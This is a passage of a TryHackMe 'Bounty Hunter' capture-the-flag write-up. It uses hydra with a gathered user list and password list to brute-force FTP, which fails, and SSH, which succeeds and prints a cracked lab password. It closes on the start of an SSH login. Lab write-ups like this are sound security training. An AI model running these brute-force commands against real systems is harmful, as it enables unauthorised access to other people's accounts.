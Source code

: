 ```
ReDSynd1ca7e
```
So possibly a password file. Perhaps we could use our list of possible users?

The next file, task.txt.

```
~/CTF/tryhackme/bounty_hunter$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
OK from this nothing that jumps out, however we may have another possible user.

## hydra
Lets try ftp first and see if it gets us anywhere. I created a user list file for simplicity.
```
/CTF/tryhackme/bounty_hunter$ hydra -L user_list.txt -P locks.txt ftp://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-07 08:56:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 182 login tries (l:7/p:26), ~12 tries per task
[DATA] attacking ftp://10.10.137.143:21/
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-07 08:56:45
```
OK Nothing shown there. Lets try ssh
```
~/CTF/tryhackme/bounty_hunter$ hydra -t 20 -L user_list.txt -P locks.txt ssh://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-07 08:58:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 20 tasks per 1 server, overall 20 tasks, 182 login tries (l:7/p:26), ~10 tries per task
[DATA] attacking ssh://10.10.137.143:22/
[22][ssh] host: 10.10.137.143   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-07 08:58:47
```
Right, we have a successful user and password. Lets see what we get next.

## ssh
```
~/CTF/tryhackme/bounty_hunter$ ssh lin@$IP
The authenticity of host '10.10.137.143 (10.10.137.143)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.137.143' (ECDSA) to the list of known hosts.
lin@10.10.137.143's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.
```
